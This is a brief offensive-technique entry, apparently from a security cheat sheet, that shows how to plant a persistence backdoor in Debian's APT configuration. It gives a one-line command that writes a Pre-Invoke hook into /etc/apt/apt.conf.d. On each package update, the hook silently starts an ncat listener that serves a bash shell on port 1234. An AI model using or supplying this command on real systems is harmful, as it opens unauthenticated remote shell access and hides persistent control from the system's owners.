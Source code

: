 # apt Backdoor



If you can create a file on the apt.conf.d directory with: `APT::Update::Pre-Invoke {"CMD"};` Next time "apt-get update" is done, your CMD will be executed!

```
echo 'APT::Update::Pre-Invoke {"nohup ncat -lvp 1234 -e /bin/bash 2> /dev/null &"};' > /etc/apt/apt.conf.d/42backdoor
```

